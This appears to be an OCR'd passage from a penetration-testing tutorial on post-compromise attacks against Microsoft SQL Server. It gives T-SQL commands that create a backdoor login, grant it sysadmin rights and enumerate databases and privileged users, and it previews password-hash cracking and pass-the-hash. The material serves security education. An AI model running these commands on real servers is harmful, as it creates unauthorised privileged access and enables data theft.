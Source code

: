 \[cce\]
select suser\_sname();
\[/cce\]

Create user "travis" with password "secret"

```bash
exec master..sp\_addlogin travis, secret
```

Or another way

```bash
create login travis with password='secret';
```

Create a table named pwned

```bash
create table pwned (owned int not null default 1337);
```

Determine current database

```bash
SELECT DB\_NAME();
```

List all databases

```bash
SELECT name FROM master..sysdatabases;
```

Determine host name of PC the database is installed on

```bash
SELECT HOST\_NAME();
```

Determine users with sysadmin rights

```bash
select loginname from syslogins where sysadmin = 1
```

Add user travis to the sysadmin role

```bash
exec sp\_addsrvrolemember 'travis', 'sysadmin'
```

Now as an attacker I mentioned the three basic options of plunder database, use credentials for further access, and hosting malware. The commands above are examples of "plundering" the database and these commands merely scratch the surface. Another plundering idea would be to [search all databases for "items of interest"](http://justgeeks.blogspot.com/2006/10/search-ms-sql-server-for-any-text.html). Once you have credentials to the database you have plenty of options for plundering. The second step I mentioned was using your credentials for further access. Two things come to my mind which is cracking sql passwords and gaining access to the underlying OS that hosts the database. An attacker would want to know sql passwords because often those passwords are reused. That reuse includes other databases and possibly other credentials such as active directory credentials. The other piece of gaining access to the underlying OS of the database will allow you to do a number of things such as key logging, searching the file system, [pass the hash technique](http://en.wikipedia.org/wiki/Pass_the_hash), etc. So I'll first discuss how to crack the encrypted passwords inside of a mssql database. Just so we're on the same page a password is not supposed to be stored in [clear text](http://en.wikipedia.org/wiki/Plaintext) in a database is suppose to be stored encrypted as a [cryptographic hash](http://en.wikipedia.org/wiki/Cryptographic_hash_function). Cryptographic hash is a fancy way of saying that the password cannot be easily determined and they encrypted value is commonly referred as a hash, not to be confused with the delicious food. So the next step is to get these hashes and crack'em.
